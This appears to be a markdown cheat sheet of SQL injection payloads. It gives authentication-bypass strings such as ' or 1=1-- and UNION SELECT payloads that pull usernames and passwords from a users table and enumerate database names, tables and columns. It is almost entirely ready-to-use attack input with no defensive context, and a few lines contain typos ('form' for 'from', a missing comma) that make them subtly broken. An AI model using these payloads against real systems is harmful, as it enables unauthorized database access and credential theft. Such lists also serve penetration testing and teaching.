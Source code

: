 ```sh
admin' #
```

```sh
admin'/*
```

```sh
' or 1=1--
```

```sh
' or 1=1#
```

```sh
' or 1=1/*
```

```sh
') or '1'='1--
```

```sh
') or ('1'='1--
```

```sh
' UNION SELECT 1,'anotheruser','any password', 1--
```

#### Union

##### Extract data 

```sh
blah' UNION SELECT 0, username, password, 0 from users --
```

##### Extract database name

```sh
1 UNION SELECT ALL 1,DB_NAME,3,4--
```

##### Extract database tables

```sh
1 UNION SELECT ALL 1,TABLE_NAME,3,4 from sysobjects where xtype=char(85)--
```

##### Extract table column names

```sh
1 UNION SELECT ALL 1,column_name,3,4 form DB_NAME.information_schema.columns where table_name='EMPLOYEE_TABLE'--
```

##### Extract first field data

```sh
1 UNION SELECT ALL 1COLUMN-NAME-1,3,4 from EMPLOYEE_NAME --
```
